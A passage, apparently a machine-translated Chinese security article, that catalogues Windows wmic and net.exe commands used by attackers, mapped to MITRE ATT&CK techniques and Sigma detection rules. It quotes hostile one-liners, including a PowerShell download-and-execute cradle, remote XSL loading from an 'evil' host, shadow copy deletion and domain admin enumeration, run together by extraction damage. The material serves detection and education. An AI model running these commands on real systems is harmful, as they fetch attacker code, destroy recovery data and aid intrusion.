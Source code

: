 ```
*wmic /node:"Remote @IP" process call create "Malicious File"wmic process where "name like '%$process%'" deletewmic.exe shadowcopy deletewmic process where ExecutablePath='Path to executable' deletewmic /NODE:"COMPUTER NAME" /USER:"username" /PASSWORD:"password" process call create "powershell.exe -Command {IEX (New-Object   Net.Webclient).DownloadString('http://@IP/redacted.ps1')}"wmic.exe process get brief /format:"\\127.0.0.1\c$\Tools\pocremote.xsl"wmic os get /FORMAT:"https[:]//example[.]com/evil[.]xsl"*
```

***请注意，WMI 经常被威胁者和恶意软件使用。《WMIC》只是故事的一半。你可以用 WMI 和 powershell 做神奇的事情。***

***我强烈建议你阅读更多关于这个和最近利用 WMI 的攻击。***

## ***相关的斜接技术***

***以下来自**米特 ATT & CK** 的技术与此工具相关***

*   ***[T1518.001 —软件发现:安全软件发现](https://attack.mitre.org/techniques/T1518/001/)***
*   ***[T1490 —抑制系统恢复](https://attack.mitre.org/techniques/T1490/)***
*   ***[T1047 — Windows 管理规范](https://attack.mitre.org/techniques/T1047/)***
*   ***[T1220 — XSL 脚本处理](https://attack.mitre.org/techniques/T1220/)***
*   ***[T1078.003 —有效账户:本地账户](https://attack.mitre.org/techniques/T1078/003/)***
*   ***[T1057 —进程发现](https://attack.mitre.org/techniques/T1057/)***

## ***西格玛规则***

***根据执行的上下文，您可以使用多个 sigma 规则来检测“wmic”的用法，下面是几个示例:***

*   ***win_susp_wmi_execution.yml***
*   ***win_xsl_script_processing.yml***
*   ***win_susp_eventlog_clear.yml***

# ***网络(net.exe)***

> ***Net.exe 实用程序组件是一个命令行工具，用于控制用户、组、服务和网络连接。— [MSDN](https://docs.microsoft.com/en-us/previous-versions/windows/embedded/aa939914(v=winembedded.5)?redirectedfrom=MSDN)***

***该实用程序可用于查看共享、创建用户和组、发现、查看密码策略等。以下是威胁参与者和恶意软件执行的一些命令:***

```
*net usernet group "domain admins" /domainnet group "enterprise admins" /domainnet group "Domain Users" /domainnet viewnet view /all /domainnet /stop [Service] /ynet sharenet usersnet usenet use q: \\DomainController\DomainName /user:DomainName\administrator [Password]net config workstationnet localgroup usersnet localgroup /domain*
```

## ***相关的斜接技术***

***以下来自**米特 ATT & CK** 的技术与该工具相关***

*   ***[T1087.001 帐户发现:本地帐户](https://attack.mitre.org/techniques/T1087/001)***
*   ***[T1087.002 帐户发现:域帐户](https://attack.mitre.org/techniques/T1087/002)***
*   ***[T1136.001 创建账户:本地账户](https://attack.mitre.org/techniques/T1136/001)***
*   ***[T1136.002 创建账户:域账户](https://attack.mitre.org/techniques/T1136/002)***
*   ***[T1070.005 主机上的指示器移除:网络共享连接移除](https://attack.mitre.org/techniques/T1070/005)***
*   ***[T1135 网络共享发现](https://attack.mitre.org/techniques/T1135)***
*   ***[T1201 密码策略发现](https://attack.mitre.org/techniques/T1201)***
*   ***[T1069.001 权限组发现:本地组](https://attack.mitre.org/techniques/T1069/001)***
*   ***[T1069.002 权限组发现:域组](https://attack.mitre.org/techniques/T1069/002)***
*   ***[T1021.002 远程服务:中小企业/Windows 管理共享](https://attack.mitre.org/techniques/T1021/002)***
*   ***[T1018 远程系统发现](https://attack.mitre.org/techniques/T1018)***
*   ***[T1049 系统网络连接发现](https://attack.mitre.org/techniques/T1049)***
*   ***[T1007 系统服务发现](https://attack.mitre.org/techniques/T1007)***
*   ***[T1569.002 系统服务:服务执行](https://attack.mitre.org/techniques/T1569/002)***
*   ***[T1124 系统时间发现](https://attack.mitre.org/techniques/T1124)***

